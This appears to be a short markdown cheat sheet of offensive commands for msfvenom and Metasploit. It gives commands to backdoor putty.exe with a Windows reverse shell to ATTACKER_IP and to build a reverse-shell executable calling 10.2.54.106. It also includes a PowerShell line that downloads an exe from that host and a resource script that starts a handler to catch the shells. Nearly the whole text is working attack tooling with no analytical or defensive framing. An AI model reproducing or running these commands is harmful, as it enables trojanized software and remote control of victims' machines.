 Using MSFVenom

tags: #msfvenom #msfresourcescripts #metasploit #msfconsole

## msfvenom

Backdoor an existing file like putty.exe
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Build an exe service to do a shell_reverse_tcp
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.54.106 LPORT=4450 -f exe -o revshell.exe
```

Powershell command to download the exe file to the host
```pwsh
invoke-webrequest -UseBasicParsing -Uri http://10.2.54.106:9000/downloads/rev-svc.exe -OutFile MService.exe
```

## Metasploit resource scripts

Create the script
```txt
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.50.130.40
set LPORT 4488
exploit
```

To execute the scripts...
```bash
./msfconsole -r resourcescript.rs
```
